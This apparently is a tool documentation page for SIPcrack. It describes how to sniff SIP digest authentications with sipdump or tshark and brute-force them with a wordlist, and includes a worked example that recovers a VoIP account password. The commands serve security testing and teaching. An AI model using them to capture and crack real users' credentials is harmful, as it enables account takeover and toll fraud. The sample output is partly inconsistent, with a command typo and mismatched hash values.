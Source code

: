 # sipcrack

Notes
-------
SIPcrack is a suite for sniffing and cracking the digest authentication used in the SIP protocol.

The tools offer support for pcap files, wordlists and many more to extract all needed information and bruteforce the passwords for the sniffed accounts.

SIPcrack contains  2  programs: sipdump to capture the digest authentication and sipcrack to bruteforce the hash using a wordlist or standard input. sipdump dumps SIP digest authentications. If  a  login  is  found,  the sniffed  login  is  written  to  the  dump  file.  See 'sipdump -h' for options.

sipcrack bruteforces the user's password with the dump  file  generated by  sipdump. If a password is found, the sniffed and cracked login will be updated in the dump file. See 'sipcrack -h' for options.


Help Text
-------
```
SIPcrack 0.2  ( MaJoMu | www.codito.de ) 
----------------------------------------

Usage: sipcrack [OPTIONS] [ -s | -w <wordlist> ] <dump file>

       <dump file>   = file containing logins sniffed by SIPdump 

       Options:                                                  
       -s            = use stdin for passwords                   
       -w wordlist   = file containing all passwords to try      
       -p num        = print cracking process every n passwords (for -w)
                       (ATTENTION: slows down heavily)           

* Either -w <wordlist> or -s has to be given
```

Example Usage
-------
Use sipdump to dump SIP digest authentications to a file. If a login is found, the sniffed login is written to the dump file. 

Use sipcrack to bruteforce the user password using the dump file generated by sipdump. If a password is found, the sniffed login in the dump file is updated. 


Example from [aldeid](http://www.aldeid.com/wiki/Crack-VoIP)

*Capturing the traffic* 

Let's capture the traffic using tcpdump:

```
$ tcpdump -s0 -w sip.pcap tcp or udp
```

*Isolating the login*

sipdump is a tool shipped with SIPcrack. It enables to detect the SIP login from a related traffic capture file.

```
$ cd ~/src/SIPcrack-0.3pre/
$ ./sipdump -p ~/tmp/sip.pcap logins.dump

SIPdump 0.3pre  ( MaJoMu | www.codito.de ) 
---------------------------------------

* Using pcap file '../../tmp/sip.pcap' for sniffing
* Starting to sniff with packet filter 'tcp or udp'

* Dumped login from 212.27.52.5 -> 192.168.1.29 (User: '0950236158')

* Exiting, sniffed 1 logins
$ cat logins.dump
192.168.1.29"212.27.52.5"0950236158"freephonie.net"BYE"sip:172.17.20.241:5062
"04cd38e646e760da129f99fa734ac1e4""""MD5"dc59445f8ef78a615a2ad4d57835a383
```

As you can see from the string above, the login appears in clear, and the password as a MD5 hash.

Notice that we could also have used tshark to obtain the same result:

```
$ tshark -r sip.pcap -Tfields -e sip.auth | grep username
Proxy-Authorization: Digest username=\"0950236158\",realm=\"freephonie.net\",
nonce=\"04cd38e646e760da129f99fa734ac1e4\",uri=\"sip:0950236158@freephonie.net\",
response=\"dc59445f8ef78a615a2ad4d57835a383\",algorithm=MD5,
opaque=\"04cc3f555880bdf\"\x0d\x0a
Proxy-Authorization: Digest username=\"0950236158\",realm=\"freephonie.net\",
nonce=\"04cd38e646e760da129f99fa734ac1e4\",uri=\"sip:172.17.20.241:5062\",
response=\"dc59995a8eb78f605a2ad5d57835a383\",algorithm=MD5,
opaque=\"04cd38e646e760\"\x0d\x0a
```

*Cracking the password*

sipcrack is based on dictionaries to crack the password. For the example, we have built a file containing our password.

```
$ car ~/exploits/dictionaries/test.txt
azerty
elephant
test
password
admin
password01
Password01
507ZEy@l
oops
oopsoops
cat
dog7
monster

$ ./sipcrack -w ~/exploits/dictionaries/test.txt logins.dump

SIPcrack 0.3pre  ( MaJoMu | www.codito.de ) 
----------------------------------------

* Found Accounts:

Num	Server		Client		User	Hash|Password

1	192.168.1.29	212.27.52.5	0950236158	dc59495f8eb78a605a2ad5d57835a383

* Select which entry to crack (1 - 1): 1

* Generating static MD5 hash... 04cd38e646e760da129f99fa734ac1e4
* Starting bruteforce against user '0950236158' (MD5: 'dc59445f8ef78a615a2ad4d57835a383')
* Loaded wordlist: '~/exploits/dictionaries/test.txt'
* Starting bruteforce against user '0950236158' (MD5: 'dc59445f8ef78a615a2ad4d57835a383')
* Tried 10 passwords in 0 seconds

* Found password: '507ZEy@l'
* Updating dump file 'logins.dump'... done
```


Links
-------
* [cracking VOIP](http://www.aldeid.com/wiki/Crack-VoIP)
